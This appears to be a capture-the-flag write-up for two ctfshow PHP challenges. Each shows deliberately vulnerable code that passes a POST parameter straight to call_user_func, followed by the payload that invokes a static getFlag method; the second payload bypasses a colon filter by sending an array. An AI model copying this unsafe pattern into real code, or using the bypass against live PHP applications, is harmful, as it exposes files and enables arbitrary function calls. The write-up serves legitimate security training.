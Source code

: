 ```
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

call_user_func($_POST['ctfshow']); 
```

无参调用类的静态

构造call_user_func(“class::getFlag”)

```
payload：POST:ctfshow=ctfshow::getFlag
```

## WEB138

```
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']); 
```

对比138过滤了：

通过call_user_func入手

发现可以传入数组

```
payload：POST:ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```
